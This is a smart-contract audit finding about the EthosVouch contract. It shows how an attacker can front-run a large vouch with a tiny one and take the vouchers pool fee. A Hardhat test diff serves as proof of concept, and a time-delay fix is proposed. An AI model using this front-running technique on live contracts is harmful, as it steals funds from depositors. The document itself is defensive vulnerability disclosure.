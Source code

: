Overt Alabaster Cottonmouth

High

# Attacker can front-run a vouching deposit & steal fee

## Description & Impact
Functions [vouchByProfileId()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L330) or [vouchByAddress()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L309) and [increaseVouch()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L426) where the author deposits funds internally call other fee distributing functions one of which is [_rewardPreviousVouchers()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L697). Here, all existing vouches are proportionally awarded a part of the `vouchersPoolFee` based on the ratio of their vouched amount to the total vouched amount. 
This can be used to game the system by an attacker in the following manner:
- Assumption: Entry vouchers pool fee basis points = `10000` (for easy calculation). This effectively means `50%` of the voucher's `msg.value` will be deducted as fee.

- Normal Scenario:
    - Alice vouches `100 ETH` for a subject by calling `vouchByProfileId()`. Since there is no other voucher the balance look like:
        - Alice [pays no fee](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L714-L717). Alice's balance = `100 ETH`.
        
- Attack Scenario:
    - Alice vouches `100 ETH` for a subject by calling `vouchByProfileId()`.
    - Bob (attacker) front-runs her tx and vouches `0.0001 ETH`. Since he is the sole voucher, all fees gets redirected to him: 
        - Bob gets `50% of 100 = 50 ETH` as fee. 
        - Alice's balance = `50 ETH`

Note that while the aforementioned scenario is highly profitable for Bob since there were no pre-existing vouches, the issue still exists when there are vouches already in place. Only the magnitude of profitability for Bob decreases. Additionally, these other fee receivers (pre-existing vouchers) have a portion of their rightful fee stolen.

## Proof of Concept
Apply the following patch inside `test/EthosVouch.test.ts` and see it pass when run via `npm run hardhat -- test --grep "should demonstrate stealth of fee through front running"`:
```diff
diff --git a/ethos/packages/contracts/test/EthosVouch.test.ts b/ethos/packages/contracts/test/EthosVouch.test.ts
index be4d7f1..c290ce9 100644
--- a/ethos/packages/contracts/test/EthosVouch.test.ts
+++ b/ethos/packages/contracts/test/EthosVouch.test.ts
@@ -131,13 +131,13 @@ describe('EthosVouch', () => {
         EXPECTED_SIGNER.address,
         signatureVerifierAddress,
         contractAddressManagerAddress,
         FEE_PROTOCOL_ACC.address,
         0, // Entry protocol fee basis points
         0, // Entry donation fee basis points
-        0, // Entry vouchers pool fee basis points
+        10000, // Entry vouchers pool fee basis points
         0, // Exit fee basis points
       ]),
     );
 
     await ethosVouchProxy.waitForDeployment();
     const ethosVouchAddress = await ethosVouchProxy.getAddress();
@@ -441,12 +441,52 @@ describe('EthosVouch', () => {
           'Wrong unhealthyResponsePeriod, 2',
         );
       });
     });
 
     describe('vouchByProfileId', () => {
+      it('should demonstrate stealth of fee through front running', async () => {
+        const {
+          ethosVouch,
+          PROFILE_CREATOR_0,
+          PROFILE_CREATOR_1,
+          VOUCHER_0,
+          VOUCHER_1,
+          ethosProfile,
+          OWNER,
+        } = await loadFixture(deployFixture);
+
+        // create a profile
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_1.address);
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_1.address);
+        await ethosProfile.connect(VOUCHER_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_1).createProfile(1);
+        await ethosProfile.connect(VOUCHER_1).createProfile(1);
+
+        const attacker = VOUCHER_1;
+
+        // ============== FRONT-RUNNING Tx by the attacker ===============
+        // Attacker vouches 0.0001 ETH
+        await ethosVouch.connect(attacker).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('0.0001'),
+        });
+        // ===============================================================
+        
+        // Naive user's Tx: vouches 100 ETH
+        await ethosVouch.connect(VOUCHER_0).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('100'),
+        });
+
+        // Verify stolen fee
+        const attackerVouch = await ethosVouch.vouches(0);
+        expect(attackerVouch.balance).to.be.gt(ethers.parseEther('50'));
+      });
+      
       it('should fail if no profile', async () => {
         const { ethosVouch, VOUCHER_0, ethosProfile, OWNER } = await loadFixture(deployFixture);
 
         await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
         await ethosProfile.connect(VOUCHER_0).createProfile(1);
 

```

## Mitigation 
It's recommended to have a time delay after an author deposits funds for vouching. Only after this time delay should they be eligible to receive a portion of the 'previous voucher fee'.